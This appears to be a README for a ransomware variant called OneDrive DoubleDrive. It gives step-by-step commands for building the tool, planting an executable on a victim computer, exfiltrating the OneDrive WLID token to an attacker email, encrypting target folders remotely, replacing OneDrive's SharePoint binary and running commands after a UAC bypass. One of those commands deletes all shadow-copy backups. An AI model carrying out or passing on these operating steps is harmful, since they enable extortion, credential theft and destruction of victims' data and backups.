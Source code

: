 # OneDrive DoubleDrive
A DoubleDrive variant that uses OneDrive to encrypt local files remotely.

## How to use
1. Make sure you clone the DoubleDrive repo and install the DoubleDrive python package. If you are currently in the onedrive_doubledrive folder then run:
```cmd
pip install ../
```
2. Use `config_setup.py` to setup the exact configuration you want for the ransomware. For example:
```cmd
python .\config_setup.py --temp-email --target-paths C:\Users\Admin\Documents C:\Users\Admin\Desktop
```
3. While you are in the onedrive_doubledrive folder, run:
```cmd
pyinstaller --onefile --add-data "config.yaml;." .\endpoint_takeover.py; pyinstaller --onefile --add-data "config.yaml;." .\onedrive_doubledrive.py
```
In case you mentioned the `--onedrive-binaries-junction` flag in the previous stage then you should also run:
```cmd
pyinstaller --onefile --add-data "config.yaml;." .\follow_attacker_commands.py
```
4. A folder named `dist` will be created. Inside you can find `endpoint_takeover.exe` and `onedrive_doubledrive.exe`
5. Transfer `endpoint_takeover.exe` to the victim computer and run it. This will create junctions in the OneDrive sync folder that point towards the target folders the contain files to encrypt. It will also extract the WLID token of the OneDrive account and exfiltrate it by sharing it with the email address chosen in the configuration setup stage.
> Note - If you chose a temporary email address you should continue to the next step as soon as possible because the generated temporary email address that DoubleDrive uses works for a limited amount of time.
6. Execute `onedrive_doubledrive` with the preferred flags on the attacker's computer. For example:
```cmd
onedrive_doubledrive.exe --remote-ransomware
```
7. In case you passed the `--onedrive-binaries-junction` flag to the `config_setup.py` script in the configuration setup stage, then you can:
   1. Replace the SharePoint executable located in OneDrive's installation folder by running:
   ```cmd
   onedrive_doubledrive.exe --replace-sharepoint
   ```
   2. Execute commands using the `--run-command` flag. You can also run them after a UAC bypass was executed if you add the `--command-uac-bypass` flag. For example:
   ```cmd
   onedrive_doubledrive.exe --run-command "vssadmin delete shadows /all /quiet" --command-uac-bypass
   ```